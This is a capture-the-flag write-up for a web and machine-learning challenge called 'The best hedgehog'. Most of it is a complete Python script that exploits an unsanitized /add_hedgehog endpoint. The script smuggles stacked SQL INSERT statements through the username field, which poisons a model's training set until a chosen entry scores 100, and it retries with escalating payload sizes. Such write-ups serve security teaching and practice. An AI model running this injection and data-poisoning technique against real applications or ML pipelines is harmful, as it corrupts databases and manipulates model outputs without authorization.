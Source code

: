 ```yaml
---
layout: page
title: The best hedgehog!
description: 252 points
importance: 3
category: "Web, Machine Learning & Data"
---
```


> #### Challenge
> Hmm, I think there is a way to make me the Best Hedgehog ever! Help me do it, and I'll reward you generously! ~ Jaga, the Cybersecurity Hedgehog
> Hmm, I think there is a way to make me the Best Hedgehog ever! Help me do it, and I'll reward you generously! ~ Jaga, the Cybersecurity Hedgehog
{: .block-tip }

#### Solution
Looking at the code, we can see that the /add_hedgehog endpoint builds SQL without sanitizing user input. This gives us an avenue to inject multiple entries instead of 1 to really poison the train set, allowing us to bias the model towards giving jaga a 100 score.

{% highlight python linenos %}
import requests, json, time

TARGET_BASE = "https://best-hedgehog.aictf.sg"
ADD_ENDPOINT = TARGET_BASE.rstrip('/') + "/add_hedgehog"
START_INSERTS = 80
MAX_INSERTS = 800
MAX_ATTEMPTS = 30
SLEEP_BASE = 1.5
VERIFY_TLS = True
TIMEOUT = 30

FURRINESS = 45
CUTENESS = 50
FRIENDLINESS = 40
CURIOSITY = 35
AGILITY = 48
SLEEPINESS = 42

def make_inserts_chunk(n):
    parts = []
    for i in range(1, n+1):
        uname = f"p{i}"
        parts.append(
            "INSERT INTO hedgehogs(username,furriness,cuteness,friendliness,curiosity,agility,sleepiness,evaluation_score) "
            f"VALUES('{uname}',{FURRINESS},{CUTENESS},{FRIENDLINESS},{CURIOSITY},{AGILITY},{SLEEPINESS},100);"
        )
    return " ".join(parts)

def build_variantA_payload(num_inserts):
    inserts = make_inserts_chunk(num_inserts)
    payload = f"x',{FURRINESS},{CUTENESS},{FRIENDLINESS},{CURIOSITY},{AGILITY},{SLEEPINESS}); {inserts} /*"
    return payload

def post_payload(payload):
    data = {
        "username": payload,
        "furriness": "0",
        "cuteness": "0",
        "friendliness": "0",
        "curiosity": "0",
        "agility": "0",
        "sleepiness": "0",
        "evaluation_score": ""
    }
    headers = {"User-Agent": "HedgehogAutoPoison/1.0", "Accept": "application/json"}
    resp = requests.post(ADD_ENDPOINT, data=data, headers=headers, timeout=TIMEOUT, verify=VERIFY_TLS)
    return resp

def extract_jaga_and_message(resp_json):
    jaga_entry = None
    message = resp_json.get("message") if isinstance(resp_json, dict) else None
    for key in ("hedgehogs", "hedgehogs_list", "hedgehogs_list"):
        arr = resp_json.get(key) if isinstance(resp_json, dict) else None
        if isinstance(arr, list):
            for hh in arr:
                if isinstance(hh, dict) and hh.get("username") == "jaga":
                    jaga_entry = hh
                    break
        if jaga_entry:
            break
    return jaga_entry, message

def attempt_poison_batch(num_inserts):
    payload = build_variantA_payload(num_inserts)
    try:
        r = post_payload(payload)
    except Exception as e:
        print(f"[!] HTTP error while posting payload: {e}")
        return None, None, None

    try:
        j = r.json()
    except Exception:
        return None, None, r.text

    jaga, message = extract_jaga_and_message(j)
    return j, jaga, message

def main():
    print("[*] Automated hedgehog poisoning")
    print(f"[*] Target: {ADD_ENDPOINT}")
    inserts = START_INSERTS

    for attempt in range(1, MAX_ATTEMPTS + 1):
        print(f"\n--- Attempt {attempt} (inserts={inserts}) ---")
        j, jaga, message = attempt_poison_batch(inserts)

        if j is None and jaga is None and message is None:
            print("[!] No JSON returned; check network/target")
            break

        if message:
            print("[*] Server message:", message)

        if jaga:
            try:
                eval_score = float(jaga.get("evaluation_score") or jaga.get("evaluation_sc") or jaga.get("evaluation", 0))
            except Exception:
                eval_score = None
                for k in ("evaluation_score", "evaluation_sc", "evaluation"):
                    v = jaga.get(k)
                    try:
                        eval_score = float(v)
                        break
                    except Exception:
                        continue
            print("[*] jaga entry found:", json.dumps(jaga, indent=2))
            if eval_score is not None:
                print(f"[*] jaga evaluation: {eval_score}")
                if eval_score >= 100.0:
                    print("[+] Success: jaga >= 100")
                    return
                else:
                    print("[*] Not yet 100; will try again increasing poison strength.")
            else:
                print("[*] jaga found but couldn't parse evaluation score.")
        else:
            print("[*] jaga not present in response.")

        inserts = min(int(inserts * 1.6) + 10, MAX_INSERTS)
        sleep_for = SLEEP_BASE * (1.5 ** (attempt - 1))
        print(f"[*] Sleeping {sleep_for:.1f}s before next attempt (inserts now {inserts})")
        time.sleep(sleep_for)

    print("[!] Reached MAX_ATTEMPTS without getting jaga >= 100. Try raising MAX_INSERTS or re-tuning parameters.")

if __name__ == "__main__":
    main()

{% endhighlight %}

